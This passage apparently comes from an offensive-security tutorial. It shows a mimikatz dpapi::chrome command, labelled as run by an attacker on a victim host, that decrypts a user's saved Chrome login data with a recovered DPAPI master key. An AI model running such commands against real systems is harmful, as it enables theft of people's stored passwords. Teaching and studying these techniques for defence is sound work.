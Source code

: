 ![](../../.gitbook/assets/screenshot-from-2019-04-13-17-11-48.png)

We can now decrypt user's `spotless` chrome secrets using their decrypted master key:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /masterkey:b5e313e344527c0ec4e016f419fe7457f2deaad500f68baf48b19eb0b8bc265a0669d6db2bddec7a557ee1d92bcb2f43fbf05c7aa87c7902453d5293d99ad5d6
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-13-17-16-47.png)

## Using DPAPIs to Encrypt / Decrypt Data in C++

### CryptProtectData
